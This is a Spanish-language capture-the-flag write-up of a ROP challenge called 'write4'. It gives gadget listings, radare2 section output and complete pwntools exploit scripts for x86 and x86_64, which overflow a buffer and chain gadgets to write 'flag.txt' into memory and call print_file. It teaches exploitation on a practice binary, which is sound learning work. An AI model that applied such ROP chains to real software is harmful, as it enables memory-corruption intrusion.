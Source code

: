 # write4

## x86

![2025-05-30-195441_977x295_scrot](https://github.com/user-attachments/assets/7c0bbc01-b019-48c2-ba22-b86b5ede3a71)

En este reto debemos llamar a `print_file` con un puntero a "flag.txt" como argumento. Pero esa cadena no existe en el binario asi que tendremos que escribirla.

La descripcion nos da una pista de gadgets que podriamos usar. Con ROPGadget extraje estos:
```
0x080485aa : pop edi ; pop ebp ; ret
0x08048543 : mov dword ptr [edi], ebp ; ret
```

El primero almacena valores del stack en `edi` y `ebp` y el segundo copia el contenido de `ebp` a la direccion que contiene `edi`.

Necesitamos encontrar tambien una seccion del binario que sea escribible y que no contenga datos importantes. La seccion `data` nos sirve:
```
[0xf7f873a0]> iS ~w
19  0x00000efc    0x4 0x08049efc    0x4 -rw- INIT_ARRAY  .init_array
20  0x00000f00    0x4 0x08049f00    0x4 -rw- FINI_ARRAY  .fini_array
21  0x00000f04   0xf8 0x08049f04   0xf8 -rw- DYNAMIC     .dynamic
22  0x00000ffc    0x4 0x08049ffc    0x4 -rw- PROGBITS    .got
23  0x00001000   0x18 0x0804a000   0x18 -rw- PROGBITS    .got.plt
24  0x00001018    0x8 0x0804a018    0x8 -rw- PROGBITS    .data
25  0x00001020    0x0 0x0804a020    0x4 -rw- NOBITS      .bss
[0xf7f873a0]> px 16@ 0x0804a018
- offset -  1819 1A1B 1C1D 1E1F 2021 2223 2425 2627  89ABCDEF01234567
0x0804a018  0000 0000 0000 0000 0000 0000 0000 0000  ..............
```

Con esto podemos hacer una funcion para escribir alli, en chunks de 4 bytes porque ese es el tamaño de los registros que usamos:
``` python
data_addr = 0x0804a018
gadget_write1 = 0x080485aa  # pop edi ; pop ebp ; ret
gadget_write2 = 0x08048543  # mov dword ptr [edi], ebp ; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),4):
        print("Loop: ",i)
        chunk = data[i:i+4].ljust(4,b"\x00")
        p += p32(gadget_write1)
        p += p32(data_addr + i)
        p += p32(int.from_bytes(chunk,'little'))
        p += p32(gadget_write2)
    return p
```

Primero usamos esto para escribir en memoria y luego llamamos a `print_file`, pasandole como argumento el inicio de nuestra cadena.

Exploit:
``` python
from pwn import *
elf = context.binary = ELF("./write432")
io = process("./write432")

data_addr = 0x0804a018
gadget_write1 = 0x080485aa  # pop edi ; pop ebp ; ret
gadget_write2 = 0x08048543  # mov dword ptr [edi], ebp ; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),4):
        print("Loop: ",i)
        chunk = data[i:i+4].ljust(4,b"\x00")
        p += p32(gadget_write1)
        p += p32(data_addr + i)
        p += p32(int.from_bytes(chunk,'little'))
        p += p32(gadget_write2)
    return p

payload = b"A" * 44
payload += write_in_data(b"flag.txt\x00")  # write "flag.txt" en .data
payload += p32(elf.plt['print_file'])  # print_file("flag.txt")
payload += p32(0)                      # ebp
payload += p32(data_addr)              # "flag.txt"



io.recv()
io.sendline(payload)
io.interactive()
```

## x86_64

Un poco de lo mismo, solo que usaremos registros de 64 bits para escribir, asi que ajustamos el bucle a chunks de 8 bytes.

Ademas recordemos que en x86_64 primero se almacenan los argumentos en los registros  en el orden de la ABI y despues se llama a la funcion.

Exploit:
``` python
from pwn import *
elf = context.binary = ELF("./write4")
io = process("./write4")

data_addr = 0x00601028
gadget_write1 = 0x00400690  # pop r14 ; pop r15 ; ret
gadget_write2 = 0x00400628  # mov qword ptr [r14], r15 ; ret
pop_rdi =  0x00400693       # pop rdi; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),8):
        print("Loop: ",i)
        chunk = data[i:i+8].ljust(8,b"\x00")
        p += p64(gadget_write1)
        p += p64(data_addr + i)                    #r14
        p += p64(int.from_bytes(chunk,'little'))   #r15
        p += p64(gadget_write2)
    return p

payload = b"A" * 40
payload += write_in_data(b"flag.txt\x00")  # write "flag.txt" en .data
payload += p64(pop_rdi)
payload += p64(data_addr)              # "flag.txt"
payload += p64(elf.plt['print_file'])  # print_file("flag.txt")
print(payload)
io.recv()
io.sendline(payload)
io.interactive()
```


